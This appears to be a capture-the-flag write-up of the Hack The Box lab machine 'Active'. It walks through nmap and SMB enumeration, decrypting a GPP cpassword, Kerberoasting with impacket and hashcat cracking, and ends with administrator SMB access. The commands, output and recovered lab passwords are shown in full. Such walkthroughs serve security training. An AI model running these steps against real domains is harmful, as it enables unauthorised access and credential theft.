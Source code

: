 ```yaml
---
layaout: post
image: /assets/images/active_test1.png
title: Active Write Up HTB
date: 28-01-2025
categories: [Write ups]
tag: [Active Directory, kerberoasting, GPP]
---
```

![img-description](/assets/images/active_test1.png)

**Active** is a relatively straightforward machine, perfect for getting started with **Active Directory**. In this machine, we'll explore techniques like **Kerberoasting** and **GPP Passwords**, two common methods for privilege escalation in AD environments. Great for practicing and understanding key concepts! 🚀
# **ENUMERATION**
----
## NMAP SCANNING
----
We start using nmap:
````bash 
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  tcpwrapped    syn-ack ttl 127
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
5722/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49165/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49171/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49173/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 40109/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 53262/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 38631/udp): CLEAN (Timeout)
|   Check 4 (port 52552/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2025-01-27T18:16:36
|_  start_date: 2025-01-27T17:58:44
|_clock-skew: -1s
````
After analyzing the nmap, we can realize that we are dealing with an Active Directory, so we will start by enumerating the SMB.

# **ENUMERATING SMB AS ANONYMOUS**
----
````bash
smbclient -L \\\10.10.10.100/shares
Password for [WORKGROUP\root]:
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
````

## On smb we found credentails for SVC_TGS
---
````bash
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\> ls
  .                                   D        0  Sat Jul 21 12:37:44 2018
  ..                                  D        0  Sat Jul 21 12:37:44 2018
  Groups.xml                          A      533  Wed Jul 18 22:46:06 2018

<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
````

# **FOOTHOLD**
----
## Group Policy Preferences

When a new Group Policy Preference (GPP) is created, an XML file is stored in the SYSVOL share containing its configuration, including any associated passwords. These passwords are AES-encrypted and stored as `cpassword`. However, Microsoft publicly [released the encryption key](https://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx).

In 2014, Microsoft patched this by preventing admins from adding passwords to GPP, but it didn’t address existing vulnerable passwords. As of 2025, pentesters still find these issues. For more details, see this [AD Security post](https://adsecurity.org/?p=2288).

# **AUTHENTICATED ENUMERATION**
---
## Enumerating SMB as SVC_TGS
----

````bash
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18

smb: \SVC_TGS\Desktop\> ls
  .                                   D        0  Sat Jul 21 17:14:42 2018
  ..                                  D        0  Sat Jul 21 17:14:42 2018
  user.txt                           AR       34  Tue Jan 28 02:14:45 2025

                5217023 blocks of size 4096. 260447 blocks available
````
# **PRIVILEGE ESCALATION**
----
## Kerberoasting
----
Kerberos is an authentication protocol used in Windows Active Directory environments (and can also be used for Linux hosts). In 2014, Tim Medin introduced the _Kerberoasting_ attack. This attack involves obtaining Kerberos tickets encrypted with the hash of a service account's password. Instead of sending the ticket to the service, it can be brute-forced offline to crack the password.

Typically, an active domain account is required to perform the attack. However, if the Domain Controller (DC) is configured with the _"Do not require Kerberos preauthentication"_ setting, it’s possible to request and receive a ticket without a valid domain account.

We are going to use the credentials we previously obtained to execute the attack using `impacket-GetUserSPNs`.
````bash
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password:
ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 21:06:40.351723  2025-01-27 18:59:55.488567
````
We were able to extrat the ticket which we will try to force decrypt to get Administrator's password

````bash
hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
````

## Acces as ADMINISTRATOR to smb

````bash
smbclient //10.10.10.100/C$ -U active.htb\\administrator%Ticketmaster1968

smb: \Users\Administrator\Desktop\> ls
  .                                  DR        0  Thu Jan 21 17:49:47 2021
  ..                                 DR        0  Thu Jan 21 17:49:47 2021
  desktop.ini                       AHS      282  Mon Jul 30 15:50:10 2018
  root.txt                           AR       34  Mon Jan 27 18:59:52 2025
  
````
![netrunner](/assets/images/netrunner.gif)